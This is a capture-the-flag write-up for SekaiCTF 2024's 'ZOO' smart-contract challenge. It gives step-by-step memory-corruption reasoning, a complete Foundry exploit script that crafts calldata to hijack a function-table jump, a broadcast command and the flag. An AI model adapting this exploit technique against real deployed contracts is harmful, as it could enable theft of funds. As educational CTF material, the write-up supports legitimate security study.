 ## ZOO

You can check detail in my [blog](https://blog.solidity.kr/posts/(ctf)-2024-SekaiCTF/)

1. add a `fake_animal` with the target index in the name, and set its index to 0x400 (the offset of the first animal).
2. delete first index to set the 7th offset to 0x400 (offset of first animal)
3. edit 7th type (first animal) to 0x80 (function table offset)
4. delete first index to set the 7th offset to 0x80 (offset of function table)
5. edit 7th type (offset of function_table) to 0x323 (over the pause check logic)
6. edit 6th type (0x400) to 0x300 (offset of local_animal)
7. delete first index to set the 7th offset to local_animal
8. edit 7th type (first offset of local_animal) to 0x460 (offset of fake_animal)
9. only one animal was added, but it was deleted three times, causing the `animal_count` to become a negative number. Now, add three animals to index 1.
10. add length padding to ensure the locate local_animal is located at 0x300

### Solve.s.sol & solve.sh
---

```solidity
pragma solidity ^0.8.25;

import {Script, console2} from "forge-std/Script.sol";

interface Setup {
    function zoo() external view returns (address);
    function isSolved() external view returns (bool);
}

contract Solve is Script {
    function run() public {
        vm.startBroadcast();
        Setup setup = Setup(vm.envAddress("SETUP"));
        console2.log("setup", address(setup));
        address zoo = setup.zoo();
        console2.log("zoo", address(zoo));

        // ADD(1) | IDX(1) | NAME_LENGTH(2) | TYPE(2) | NAME(NAME_LENGTH)
        // EDIT(1) | IDX(1) | EDIT_TYPE(1) | NAME_LENGTH(2) | NAME(NAME_LENGTH)
        // EDIT{1) | IDX(1) | EDIT_TYPE(1) | NEW_TYPE(2)
        // DEL(1) | IDX(1)

        // function pointer: 0x80 ( 0x312 )
        // local animal : 0x300
        // first animal: 0x320
        // first alloc : 0x420
        // fake_animal : 0x460
        // 0x323 : over pause

        uint256 target_idx = uint256(int256(-1)) - uint256(keccak256(abi.encode(2)));
        uint16 target_jmp = 0x323;
        uint16 function_table = 0x80;
        uint16 first_alloc = 0x400;
        uint16 local_animal = 0x300;
        uint16 fake_animal_idx = 0x460;
        target_idx /= 2;
        target_idx += 1;

        bytes memory call = "";
        bytes memory fake_animal = abi.encodePacked(uint256(target_idx), uint256(0x20), hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x00),uint16(fake_animal.length),uint16(first_alloc), fake_animal);
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(function_table));
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(target_jmp));
        call = abi.encodePacked(call, uint8(0x20),uint8(0x06),uint8(0x22), uint16(local_animal));
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(fake_animal_idx));
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");

        uint256 length = call.length;
        console2.log("length", length);
        uint256 target = 0x200 - length;
        for (uint i = 0; i < target; i++) {
            call = abi.encodePacked(call, hex"ba");
        }
        (bool success, bytes memory out) = address(zoo).call(call);
        console2.log("solved?", setup.isSolved());
        assert(setup.isSolved());
        vm.stopBroadcast();
    }
}
```

```sh
export RPC=<rpc>
export PVKEY=<pvKey>
export SETUP=<setup-address>

forge init --force .
forge script --broadcast --rpc-url $RPC --private-key $PVKEY ./Solve.s.sol:Solve --evm-version cancun
```

> flag: SEKAI{super-duper-memory-master-:3}


